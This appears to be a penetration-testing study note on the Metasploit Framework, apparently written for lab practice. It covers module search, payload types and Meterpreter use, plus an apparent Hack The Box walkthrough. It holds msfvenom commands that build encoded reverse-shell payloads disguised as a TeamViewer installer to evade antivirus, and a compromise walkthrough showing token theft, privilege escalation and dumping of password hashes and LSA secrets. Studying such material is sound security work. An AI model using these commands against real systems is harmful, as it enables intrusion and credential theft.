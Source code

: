 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

**Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

**Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

**Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT <ATTACKER PORT>
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

Displays a list of available Meterpreter commands and their descriptions.

```bash
meterpreter > help
``` 

Shows the current user (UID) that the Meterpreter session is running under.

```bash
meterpreter > getuid
``` 

Lists all running processes on the target system, including PIDs and owners.

```bash
meterpreter > ps
``` 

Steals the security token from a specified process (PID 1836) to impersonate its privileges.

```bash
meterpreter > steal_token 1836
``` 

Dumps the password hashes of all local user accounts (stored in the SAM database).

```bash
meterpreter > hashdump
``` 

Extracts and displays password hashes from the Security Account Manager (SAM) via the LSASS process.

```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam
``` 

Retrieves encrypted secrets (like cached credentials and auto-login passwords) from the LSASS memory.

```bash
meterpreter > lsa_dump_secrets
``` 

</details>

<details>
<summary><h4>Example Compromise Walkthrough</h4></summary>



**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

**MSF - Privilege Escalation**

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

# [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

# Module options (exploit/windows/local/ms15_051_client_copy_image):

#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    SESSION                   yes       The session to run this module on.


# Payload options (windows/meterpreter/reverse_tcp):

#    Name      Current Setting  Required  Description
#    ----      ---------------  --------  -----------
#    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
#    LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
#    LPORT     4444             yes       The listen port


# Exploit target:

#    Id  Name
#    --  ----
#    0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1

# SESSION => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

# LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

# [*] Started reverse TCP handler on 10.10.14.26:4444 
# [*] Launching notepad to host the exploit...
# [+] Process 844 launched.
# [*] Reflectively injecting the exploit DLL into 844...
# [*] Injecting exploit into 844...
# [*] Exploit injected. Injecting payload into 844...
# [*] Payload injected. Executing exploit...
# [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
# [*] Sending stage (175174 bytes) to 10.10.10.15
# [*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

**MSF - Dumping Hashes**

```bash
meterpreter > hashdump

# Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
# ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
# IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
# Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
# SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

# [+] Running as SYSTEM
# [*] Dumping SAM
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
# Local SID : S-1-5-21-1709780765-3897210020-3926566182

# SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

# RID  : 000001f4 (500)
# User : Administrator
#   Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
#   Hash NTLM: d6908f022af0373e9e21b8a241c86dca

# RID  : 000001f5 (501)
# User : Guest

# RID  : 000003e9 (1001)
# User : SUPPORT_388945a0
#   Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

# RID  : 000003eb (1003)
# User : IUSR_GRANPA
#   Hash LM  : a274b4532c9ca5cdf684351fab962e86
#   Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

# ...
```

**MSF - Meterpreter LSA Secrets Dump**

```bash
meterpreter > lsa_dump_secrets

# [+] Running as SYSTEM
# [*] Dumping LSA secrets
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

# Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
# Domain name : HTB

# Policy subsystem is : 1.7
# LSA Key : ada60ee248094ce782807afae1711b2c

# Secret  : aspnet_WP_PASSWORD
# cur/text: Q5C'181g16D'=F

# Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
# cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

# Secret  : DPAPI_SYSTEM
# cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
#     full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
#     m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

# Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
# cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

# Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
# cur/hex : 00 f2 d1 31 e2 11 d3 01 

# Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

<details>
<summary><h3>Importing Modules</h3></summary>

**Required Formatting**

* **Character Set**

    * ✅ Alphanumeric characters only (a-z, 0-9)

    * ✅ Underscores (_) for word separation

* **Case Standard**

    * Exclusive use of snake_case (all lowercase)

    * Example: exploit/windows/http/example_module.rb

* **Prohibited Elements**

    * ❌ Hyphens (-) or spaces

    * ❌ Special characters (@, #, &, etc.)

    * ❌ Uppercase letters

* **Common Error Scenarios**

    1. Hyphen Misuse

        * ❌ Invalid: my-module.rb

        * ✅ Valid: my_module.rb

    2. Case Sensitivity

        * ❌  Invalid: MyModule.rb

        * ✅ Valid: my_module.rb  

<details>
<summary><h4>Full Upgrade</h4></summary>

To incorporate community-developed modules into your Metasploit installation:

Execute:

```bash
msfupdate
``` 

This fetches all newly integrated:

* Exploit modules

* Auxiliary components

* Framework enhancements

</details>

<details>
<summary><h4>Manual</h4></summary>

1. Source Selection

    * Prioritize ExploitDB for verified modules

    * Filter using the "Metasploit Framework (MSF)" tag to ensure compatibility

2. Installation

Download module:

```bash
wget <EXPLOIT URL> -O /usr/share/metasploit-framework/modules/exploits/<CATEGORY>/<EXPLOIT>
``` 

3. Verification

Search within msfconsole:

```bash
msf6 > reload_all
msf6 > search type:exploit <module_name>
``` 

</details>

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

Text

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

Text

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)
